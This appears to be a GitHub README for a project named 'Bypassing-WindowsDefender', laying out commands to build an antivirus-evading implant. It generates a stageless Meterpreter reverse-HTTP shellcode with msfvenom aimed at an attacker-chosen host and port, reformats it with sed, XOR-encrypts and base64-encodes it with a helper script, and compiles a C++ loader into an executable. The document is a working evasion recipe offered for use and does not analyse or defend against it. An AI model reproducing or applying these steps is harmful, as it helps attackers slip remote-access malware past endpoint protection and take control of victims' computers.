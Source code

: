 ## Bypassing-WindowsDefender

### External library used in this project

- https://github.com/ReneNyffenegger/cpp-base64

### Creating stageless payload

```bash
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=<IP> LPORT=<PORT> -f c -o main.c
```

### Copying our shellcode to the clipboard

```bash
sed -E 's/"\\/0/g;s/"$/,/g;s/\\x/, 0x/g;s/";//g;/unsigned char [A-Za-z]+\[\] =/d' main.c | xclip -sel clip
```

- Create a file called `payload.txt` in the same folder where the `tool.py` script is located and paste your shellcode there.

### Running tool.py

```powershell
python3 tool.py
```

- Copy the subtraction value and add it to main.cpp in `int subtract = [HERE];`. (This is just to avoid using the xor key directly in the code, you can remove it if you want)

- Remember that you can change the value of the `xor_value` variable in the `tool.py` code.
- The tool will create a file called `payload.b64`, which will contain your encrypted and base64-encoded shellcode that you must replace in the main.cpp.

### Compilation command

```powershell
g++.exe -m64 -o app.exe -lkernel32 -static main.cpp base64.cpp -mwindows -I . -D_WIN32_WINNT=0x0601
```

Make sure you have `base64.h` and `base64.cpp` in your project.

### Demo video

https://user-images.githubusercontent.com/89106058/237018521-ff5d43e9-b833-421f-9a83-e47385bf5a0c.mp4


